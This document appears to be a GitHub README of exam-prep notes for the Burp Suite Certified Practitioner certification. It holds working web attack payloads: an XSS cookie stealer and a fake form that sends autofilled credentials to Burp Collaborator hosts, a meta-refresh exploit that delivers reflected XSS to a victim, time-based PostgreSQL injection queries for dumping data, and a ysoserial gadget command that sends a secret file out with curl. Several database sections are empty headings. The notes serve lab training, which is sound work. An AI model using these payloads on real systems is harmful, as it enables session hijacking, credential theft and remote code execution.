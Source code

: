 # <img src="https://icons.iconarchive.com/icons/goescat/macaron/1024/burp-suite-icon.png" width=25> BSCP Methodology

## Table of Contents
* [Useful Burp extensions](#useful-burp-extensions-some-of-them-requires-burpsuite-pro)
* [Cross-Site Scripting Section](#cross-site-scripting-section)
   * [Bypass restrictions method 1](#bypass-restrictions-method-1)
   * [Capture credentials from auto-filled forms](#capture-credentials-from-auto-filled-forms)
   * [DOM XSS](#dom-xss)
* [Exploit Server Section](#exploit-server-section)
  * [Send exploit to victim (Reflected XSS in search bar)](#send-exploit-to-victim-reflected-xss-in-search-bar)
* [SQL Injection Section](#sql-injection-section)
  * [PostgreSQL](#postgresql)
    * [Time Based](#time-based)
  * [MySQL](#mysql)
  * [Oracle](#oracle)
  * [SQLite](#sqlite)
* [Insecure Deserialization Section](#insecure-deserialization-section)
  * [Java](#java)
  * [PHP](#php)
## Useful Burp extensions (some of them requires burpsuite pro)
- Hackvertor
- Copy As Python-Requests
- Java Deserialization Scanner | [ysoserial.jar](https://github.com/frohoff/ysoserial) for manual exploitation<b>(prefer because sometime this extension it doesn't work as it should)</b>
- HTTP Request Smuggler


## Cross-Site Scripting Section
When the exam involve XSS for the user part start search about javascript file in the source code or use the [DOM Invader](#dom-xss) into search forms.<br>
You can find an injection point with some payloads from this repository - [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) <br>
Also here - [XSS Payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all)

### Bypass restrictions method 1
Sometimes we found a XSS injection point but with some keyword restrictions, so we have to bypass these restrictions with some techniques like below.
1. Generate the base64 payload

```bash
echo -n "document.location = 'http://<BURP-COLLABORATOR.NET>/?cookie='+document.cookie" |base64
```

2. Insert the base64 payload into atob function
```javascript
eval(atob("BASE64-PAYLOAD"))
<script>eval(atob("BASE64-PAYLOAD"))</script>
```

### Capture credentials from auto-filled forms
Sometimes we use password managers that fill in forms automatically and with this technique we can grab those credentials just making a small html form.
```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://zy1cmwt0q8o3vtlolrhvx9nfn6t7hw.burpcollaborator.net',{
  method:'POST',
  mode: 'no-cors',
  body:username.value+':'+this.value
});">
```

### DOM XSS
An awesome google chrome(from burp suite) extension is <b>DOM Invader</b> which you can use it for DOM XSS testing

## Exploit Server Section
#### Send exploit to victim (Reflected XSS in search bar)
With <b>`<meta>`</b> html tag we can redirect the "victim" to our javascript injected search query.
```html
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?search=injection_here' />

<!-- ALL TOGETHER BELOW-->
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?SearchTerm=aa","fd8xsw5l":eval(atob("BASE64-PAYLOAD"))}//' />
```

## SQL Injection Section

### PostgreSQL
#### Time Based
Identify time based
```sql
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))
```

Database Dump Time Based<br>

```sql
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

Table Dump Time Based <br>

```sql
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```

Columns Dump Time Based <br>
```sql
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from column_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from column_name where column_name='value' limit 1
```


### MySQL

### Oracle

### SQLite

## Insecure Deserialization Section


### Java
If you have `Java Deserialization Scanner` burp extension you can do an active scan(pro version only) and maybe you will find something ;) at least exploit it manually with the below tool.
#### ysoseriar.jar
payloads about `ysoseriar` <br>
<b>Dont forget</b> the below payloads requires url encoding after payload are generated
```bash
java -jar ysoseriar.jar CommonsCollections7 'curl -d @/home/carlos/secret k3of2usea0s8kzkwsqnme9bj2a83ws.burpcollaborator.net' | gzip|base64 

java -jar ysoseriar.jar <PAYLOAD> 'COMMAND' | encoding
```
For more information about payloads and stuff you can find in the ysoserial [official repository](https://github.com/frohoff/ysoserial)

### PHP

